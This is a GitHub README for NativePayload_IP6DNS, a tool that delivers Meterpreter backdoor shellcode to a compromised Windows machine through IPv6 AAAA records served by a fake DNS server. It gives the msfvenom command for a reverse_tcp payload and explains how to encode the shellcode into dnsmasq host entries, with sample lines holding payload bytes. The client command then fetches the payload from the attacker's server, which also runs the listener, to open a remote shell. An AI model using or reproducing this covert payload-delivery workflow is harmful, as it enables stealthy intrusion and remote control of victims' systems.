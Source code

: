 # NativePayload_IP6DNS
Published by Damon Mohammadbagher

this tool working like NativePayload_DNS , but in this case this tool working by IPv6 Address and AAAA records for Transferring Backdoor payloads by DNS Traffic ;)


note : this code supported only 990 bytes (99 lines IPV6 ADDRESS foreach 10 bytes) for Payloads , for changing this value you should change source code

note : {fe80:1111:}{fc48:83e4:f0e8:cc00:0000}{:ae0} {test.domain.com}

note : 10 bytes Payload ==> {fc48:83e4:f0e8:cc00:0000} and {:ae0} is payload counter or ID 


Example: msfvenum --arch x86_64 --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.113 -f c > /payload_string.txt

Replace your Payload_strings.txt file  from "\0xfc\0x48\0x83..." to "fc4883..."

syntax 1 : NativePayload_IP6DNS.exe null "payload string"

Description 1 : Making Hosts files for Linux Dns Server Like Dnsmasq or dnsspoof tools , copy output for this command to DNS Hosts file in linux
you can use Msfvenom tool like example and copy your payload in "payload string"

Example : payload string ==> fc4883e4f0e8cc000000415141505251564831d2ae1

Example: NativePayload_IP6DNS.exe null "payload string" > /dnsmasq.hosts

after this command you have something like these lines in your Hosts file :

Example : /etc/dnsmasq.hosts or /etc/hosts "depend on your configuration for dnsmasq or dnsspoof tools 

fe80:1111:fc48:83e4:f0e8:cc00:0000:ae0 test.domain.com

fe80:1111:4151:4150:5251:5648:31d2:ae1 test.domain.com

fe80:1111:6548:8b52:6048:8b52:1848:ae2 test.domain.com

fe80:1111:8b52:2048:8b72:5048:0fb7:ae3 test.domain.com

fe80:1111:4a4a:4d31:c948:31c0:ac3c:ae4 test.domain.com

fe80:1111:617c:022c:2041:c1c9:0d41:ae5 test.domain.com

.

.

.

fe80:1111:85f6:75b4:41ff:e758:6a00:ae49 test.domain.com

fe80:1111:5949:c7c2:f0b5:a256:ffd5:ae50 test.domain.com





syntax 2 : NativePayload_IP6DNS.exe Payload

description 2 : this switch is for making sample payload for your hosts file


syntax 3 : NativePayload_IP6DNS.exe "FQDN" "Fake_DNS_Server"

description 3 : after making your payloads and copy that in your fake_DNS_Server by dnsmasq or dnsspoof and starting fakeDNSServer , now you can start transferring your Payloads From FakeDNSServer to your Infected system by NativePayload_IP6DNS.exe tool

Example : NativePayload_IP6DNS.exe  test.domain.com  192.168.1.113

note : in this case 192.168.1.113 is your FakeDNSServer also this is your Metasploit: Meterpreter/Listener.

you should have meterpreter session after 1 DNS Response from FakeDNSserver to Client (Backdoor system)

Article : Transferring Backdoor Payloads by DNS AAAA records and IPv6 Address:

link 0: https://www.linkedin.com/pulse/transferring-backdoor-payloads-dns-aaaa-records-ipv6-mohammadbagher

link 1: https://www.peerlyst.com/posts/transferring-backdoor-payloads-by-dns-aaaa-records-and-ipv6-address-damon-mohammadbagher

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_IP6DNS"/></a></p>

